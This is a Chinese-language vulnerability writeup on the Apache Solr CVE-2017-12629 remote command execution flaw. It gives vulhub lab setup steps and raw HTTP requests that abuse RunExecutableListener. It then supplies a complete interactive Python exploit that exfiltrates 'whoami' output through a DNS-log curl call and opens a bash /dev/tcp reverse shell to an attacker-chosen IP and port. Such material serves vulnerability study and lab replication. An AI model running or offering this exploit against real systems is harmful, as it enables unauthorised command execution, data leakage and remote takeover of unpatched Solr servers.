



# Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：[XML实体扩展漏洞（XXE）](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE)和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

参考阅读：

- [Apache Solr远程代码执行漏洞（CVE-2017-12629）从利用到入侵检测](https://www.freebuf.com/sectool/159970.html)

- [cve-2017-12629 apache solr xxe & rce 漏洞分析](https://blog.csdn.net/whatday/article/details/106974271?utm_medium=distribute.pc_relevant.none-task-blog-title-7&spm=1001.2101.3001.4242)

## 漏洞影响

```
Apache Solr < 7.1
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
```

## 漏洞复现

先请求url地址获取 core 内容

http://xxx.xxx.xxx.xxx:8983/solr/admin/cores




通过查看代码，能够触发命令执行的事件有两个：postCommit 和 newSearcher



第一个请求包用于载入缓存中

exe : ping  执行的命令

dir: 命令存在的目录位置

args:命令参数

如下请求包执行的是 /bin/ping 1.1.1.1

```json
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```


第二个请求包用于更新缓存并执行命令

```json
POST /solr/demo/update HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

[{"id":"test"}]
```


注意 第一个请求包的这个位置 "name":"newlistener-1",listerer的名字需要替换

例如第一次 为 newlistener-1 ，第二次则需要改为 newlistener-2

注意 第二个请求包的这个位置  [{"id":"test"}]，同第一个请求包的name，每执行一次就需要更换 id ,例如第一次 为 test ，第二次则需要改为 tset-2

注意 Content-Type: application/json 需要添加

不更改执行发生报错示例


进入docker容器查看发现命令已经执行



使用 newSearcher可以直接加载入缓存执行命令

请求包如下

```json
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

注意点同上，也需要每次执行更改 "name":"newlistener-2" 的参数


成功执行了创建文件的命令


如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测

漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json
import random

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 7.1                                        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2017-12629.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983                            \033[0m')
    print('+  \033[36mcmd    >>> dnslog地址(漏洞外连检测)                                  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url, n):
    exp_url = target_url + "/solr/" + core_name + "/config"
    dnslog_url = "`whoami`." + dnslog_url
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
    {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"curl","dir":"/usr/bin/","args":["%s"]}}
    """ % (n, dnslog_url)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行，请查看dnslog \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name, n, ip, port):
    exp_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
        {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c","bash -i >& /dev/tcp/%s/%s 0>&1"]}}
        """ % (n, ip, port)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行 \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)

    while True:
        n = random.randint(1, 9999)
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_3(target_url, core_name, n, IP, PORT)
        elif cmd == "dnslog":
            dnslog_url = str(input('\033[35m请输入你的dnslog地址：\033[0m'))
            POC_2(target_url, core_name, dnslog_url, n)
```


如果shell或dnslog无反应，可以选择更改一下POC的部分参数执行需要的代码


